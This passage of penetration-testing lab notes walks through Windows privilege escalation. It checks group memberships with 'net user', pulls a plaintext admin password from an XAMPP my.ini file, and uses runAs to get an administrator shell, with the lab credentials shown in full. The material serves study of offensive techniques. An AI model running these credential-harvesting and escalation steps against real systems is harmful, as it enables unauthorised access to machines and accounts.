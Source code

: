 ```powershell
	password is: securityIsNotAnOption++++++
```
	- Steve's password is securityIsNotAnOption++++++

- Before leveraging the password, check what group Steve's in
```powershell
PS C:\Users\dave> net user steve
	...
	Password last set            6/16/2022 12:08:00 PM
	Password expires             Never
	Password changeable          6/16/2022 12:08:00 PM
	Password required            Yes
	User may change password     Yes
	
	Workstations allowed         All
	...
	Local Group Memberships      *helpdesk             *Remote Desktop Users 
	                             *Remote Management Use*Users                
	Global Group memberships     *None                 
	The command completed successfully.
```
	- steve isn't an Admin, but he does have RDP access

- RDP'ing in as `steve` starts the whole Discovery process all over again
	- While we're on the same endpoint, we don't need to redo process, network, etc enumeration, we will need to look through the user's info
- Given we couldn't access the *my.ini* file with `dave`, we should now test with `steve`
```powershell
PS C:\Users\steve> gc C:\xampp\mysql\bin\my.ini
	# The following options will be passed to all MySQL clients
	# backupadmin Windows password for backup job
	[client]
	password       = admin123admin123!
	port=3306
```
	- Not only did we find the password, but we've discovered that it's the password for *backupadmin* user

- Find out what groups `backupadmin` user is a part of
```powershell
PS C:\Users\steve> net user backupadmin
	...
	Local Group Memberships      *Administrators    *BackupUsers    *Users
	Global Group memberships     *None
```
	- *backupadmin* is part of Admin group, but not RDP or Remote Management Users

- As we have a GUI, we can use `runAs` to open up a command prompt as the `backupadmin` user
```powershell
runAs /user:backupadmin cmd
	Enter the password for backupadmin: <Enter admin123admin123!>
	Attempting to start cmd as user "CLIENTWK220\backupadmin" ...

	C:\Windows\system32>whoami
		clientwk220\backupadmin
```

# PowerShell Info

